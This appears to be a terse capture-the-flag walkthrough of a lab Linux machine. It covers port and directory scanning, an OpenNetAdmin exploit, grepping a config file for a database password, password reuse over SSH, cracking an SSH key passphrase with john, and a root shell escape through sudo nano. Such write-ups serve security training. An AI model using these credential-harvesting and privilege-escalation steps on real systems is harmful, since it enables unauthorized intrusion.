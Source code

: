 # recon
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
Starting gobuster in directory enumeration mode
===============================================================
/music                (Status: 301) [Size: 314] [--> http://10.129.140.30/music/]
/artwork              (Status: 301) [Size: 316] [--> http://10.129.140.30/artwork/]
/sierra               (Status: 301) [Size: 315] [--> http://10.129.140.30/sierra/]
```

# foothold
Exploit ona 18.1.1 on /music
```
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
```
ss -tunl
```
	tcp    LISTEN   0        80              127.0.0.1:3306           0.0.0.0:*     
	tcp    LISTEN   0        128             127.0.0.1:52846          0.0.0.0:* 
```
grep -r password= ./
```
	./include/adodb5/drivers/adodb-postgres64.inc.php:      //      $db->Connect("host=host1 user=user1 password=secret port=4341");4
```
grep -r "db_passwd' =>" -B 3 ./
```
	./local/config/database_settings.inc.php-        'db_type' => 'mysqli',
	./local/config/database_settings.inc.php-        'db_host' => 'localhost',
	./local/config/database_settings.inc.php-        'db_login' => 'ona_sys',
	./local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',
## ssh connexion on jimmy with 
```
n1nj4W4rri0R!
```

```
find / -user $USER 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
```
	/var/www/internal
	/var/www/internal/main.php
	/var/www/internal/logout.php
	/var/www/internal/index.php
```
cat /var/www/internal/index.php
```
	 if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1')

I found password hash that we i crack
```
Revealed
```

connect to 127.0.0.1:52846 by proxy chain
connect it using `jimmy:Revealed`
```
ssh2john id > hash
```
```
john hash --wordlist=/usr/share/wordlists/rockyou.txt 
```
	bloodninjas

## ssh connexion to joanna 
```
 ssh joanna@10.129.234.122 -i id 
```
```
sudo -l
```
#ExploitNanoSudo
```
sudo -u root /bin/nano /opt/priv
```
Nano allows inserting external files into the current one using the shortcut Ctrl + R . 

The command reveals that we can [execute system commands](https://gtfobins.github.io/gtfobins/nano/#shell) using ^X . 
Press Ctrl + X and enter the following command to spawn a shell. 
```
reset; sh 1>&0 2>&0
```